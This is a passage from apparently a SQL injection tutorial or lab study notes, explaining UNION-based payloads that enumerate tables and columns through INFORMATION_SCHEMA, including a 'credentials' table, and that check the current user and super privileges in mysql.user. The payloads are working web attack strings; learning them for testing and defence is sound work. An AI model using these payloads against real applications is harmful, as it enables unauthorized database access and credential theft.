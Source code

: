 
***💡 `database()` will tell you what is the **current db** we are in***


**(3c) find out TABLES  present in the db**

the `TABLES` table in the `INFORMATION_SCHEMA` db Contains information about all tables throughout the database. In this table, we will most likely be interested in `TABLE_SCHEMA` and `TABLE_NAME` columns.

example:

`UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'--`



**(3d) find out COLUMNS present in the db**

The `COLUMNS` table in the `INFORMATION_SCHEMA` db contains information about all columns present in all the databases. Here we will most likely be interested in the The `COLUMN_NAME`, `TABLE_NAME`, and `TABLE_SCHEMA` columns

Example

`UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'--`


### 4 - Privilege escalation

First, let’s find out our current privileges.

Typically in a SQL db you would run to find out what privileges you have.

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

```

We can accomplish the same with our `UNION` injection. As such:

`cn' UNION SELECT 1, user(), 3, 4-- -`

or

`cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -`

**- Find out if we have super privileges:**

You ll get the info with:

`SELECT super_priv FROM mysql.user`

or

`cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -`


***💡 You can add `WHERE user="root"-- -` if there are a lot of users in the db***

The output of this query will be `Y` if user has super_priv
